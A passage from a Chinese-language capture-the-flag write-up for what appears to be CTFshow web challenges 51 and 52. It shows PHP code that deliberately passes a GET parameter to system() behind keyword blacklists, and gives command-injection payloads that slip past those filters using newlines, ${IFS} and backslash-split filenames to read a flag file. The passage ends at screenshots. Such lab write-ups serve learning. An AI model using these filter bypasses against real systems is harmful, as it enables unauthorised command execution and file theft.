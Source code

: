 <>和?一起使用时没有回显,所以这里的？可以用反斜杠进行代替

paylaod:?c=tac<>fla\g.php||



## web 51

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

%0a是换行，同样可以进行命令分隔；tac被过滤，换nl

payload: ?c=nl<>fla\g.php%0a



## web 52

```php
<?php

if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```

?c=nl${IFS}fla\g.php%0a

得到

![](http://img.npfs06.top/20210225161238.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



emmmm 假的

看下根目录

![](http://img.npfs06.top/20210225161250.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)
